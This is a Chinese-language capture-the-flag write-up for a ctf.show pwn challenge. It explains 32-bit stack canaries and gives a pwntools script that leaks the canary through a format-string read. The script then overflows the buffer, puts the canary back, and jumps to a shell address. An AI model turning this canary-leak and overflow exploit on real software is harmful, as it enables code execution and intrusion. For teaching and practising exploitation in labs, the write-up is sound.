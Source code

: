 # 挑战简介
Canary？有没有办法绕过呢？

# 思路
首先让我们了解Canary是什么  
简而言之，Canary只是一个4字节的随机数，其中后字节为\x00  

 程序执行时，会将Canary放入栈中，
 
 ![image](https://github.com/user-attachments/assets/59f58a5d-eec7-4621-b5f2-0fe6a523cb79)
如var_C所示，在程序执行完毕时，检查Canary的值有没有变动，变动则将程序立刻跳转异常  

位的就是防止栈溢出  

这就是Canary的保护机制  

这道题有两个get，很简单，把Canary爆出来就可以了  

爆出来后将Canary的值原封不动的交回去即可   

```
from pwn import *
from LibcSearcher import *
#context(arch = "amd64",os = 'linux',log_level = 'debug')

context(arch = "i386",os = 'linux',log_level = 'debug')

#io = process("./pwn")

io = remote('pwn.challenge.ctf.show',28205)

elf = ELF('D:\edge 下载\pwn')

bin_sh = 0x080486CE

payload = b'%15$x'

io.recv()

io.sendline(payload)

canary = int(io.recv(),16)

print(hex(canary))

offset = 0x34-0xc

payload2 = b'a'*offset + p32(canary) + b'a'*0xc + p32(bin_sh)

io.sendline(payload2)

io.interactive()
```
